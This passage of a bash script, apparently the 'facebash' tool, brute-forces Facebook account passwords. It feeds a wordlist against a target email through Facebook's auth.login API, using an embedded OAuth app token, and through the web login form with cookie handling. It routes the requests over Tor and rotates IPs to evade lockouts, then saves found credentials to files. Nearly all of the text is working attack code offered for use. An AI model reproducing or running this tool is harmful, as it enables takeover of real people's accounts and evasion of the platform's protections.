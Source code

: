 {( trap '' SIGINT && check=$( curl --socks5 localhost:9050 -s 'https://b-api.facebook.com/method/auth.login' --user-agent "Firefox" -L -H "Authorization: OAuth 200424423651082|2a9918c6bcd75b94cefcbb5635c6ad16" -d "email=$EMAIL&password=$PASS" | grep -o "session_key\|account is temporarily unavailable" | uniq ); if [[ $check == "session_key" ]]; then printf "\e[1;92m \n  [*] Password Found: %s\n " $PASS; printf "Username: %s, Password: %s\n" $EMAIL $PASS >> found.facebash ; printf "\e[1;92m [*] Saved:\e[0m\e[1;77m found.facebash \n\e[0m";  kill -1 $$ ; elif [[ $check == "account is temporarily unavailable" ]]; then printf "\e[1;92m \n [*] Password Found or false positive: %s\n [*] Flag can be false positive\n" $PASS; printf "Username: %s, Password: %s\n" $EMAIL $PASS >> found.instashell ; printf "\e[1;92m [*] Saved:\e[0m\e[1;77m found.instashell \n\e[0m";  kill -1 $$ ;  fi ) } & done; wait $!;
let counter++
let startline++
let endline++
changeip
done

}


function method2() {

rm -rf cookies*
while [ $counter2 -lt $turn ]; do

IFS=$'\n'
for PASS in $(sed -n ''$((startline+sumstart))','$endline'p' $wl_pass); do
countpass=$(grep -n "$PASS" "$wl_pass" | cut -d ":" -f1)
token=$(($counter2+1))
COOKIES='cookies'$countpass''
#printf "method 2 \n"
printf "\e[1;77mTrying pass (%s/%s)\e[0m: %s\n" $token $count_pass $PASS

{( trap '' SIGINT && curl -s -X GET --socks5-hostname localhost:9050 'https://www.facebook.com/home.php' --user-agent $USER_AGENT --cookie $COOKIES --cookie-jar $COOKIES --location > /dev/null && curl -s -X POST --socks5-hostname localhost:9050 'https://login.facebook.com/login.php'  --user-agent $USER_AGENT --data-urlencode "email=${EMAIL}" --data-urlencode "pass=${PASS}" --cookie $COOKIES --cookie-jar $COOKIES > /dev/null && var=$( curl -s -X GET --socks5-hostname localhost:9050 'https://www.facebook.com/home.php'  --user-agent $USER_AGENT --cookie $COOKIES --cookie-jar $COOKIES | grep -o "logoutMenu\|account is temporarily unavailable" | uniq ); if [[ $var == "logoutMenu" ]]; then printf "\e[1;92m \n [*] Password Found: %s\n " $PASS; printf "Username: %s, Password: %s\n" $EMAIL $PASS >> found.facebash ; printf "\e[1;92m [*] Saved:\e[0m\e[1;77m found.instashell \n\e[0m";  kill -1 $$ ; elif [[ $check == "account is temporarily unavailable" ]]; then printf "\e[1;92m \n [*] Password Found or false positive: %s\n [*] Flag can be false positive\n" $PASS; printf "Username: %s, Password: %s\n" $EMAIL $PASS >> found.instashell ; printf "\e[1;92m [*] Saved:\e[0m\e[1;77m found.instashell \n\e[0m";  kill -1 $$ ; fi; ) } & done; wait $!;
rm -rf cookies$countpass
changeip
let startline++
let endline++
let counter2++

done
}

function resumemethod1() {
counter1=1
count_pass=$(wc -l $wl_pass | cut -d " " -f1)
while [ $counter1 -lt $turn ]; do
threads=1
IFS=$'\n'
for PASS in $(sed -n ''$token','$(($cum+1))'p' $wl_pass); do
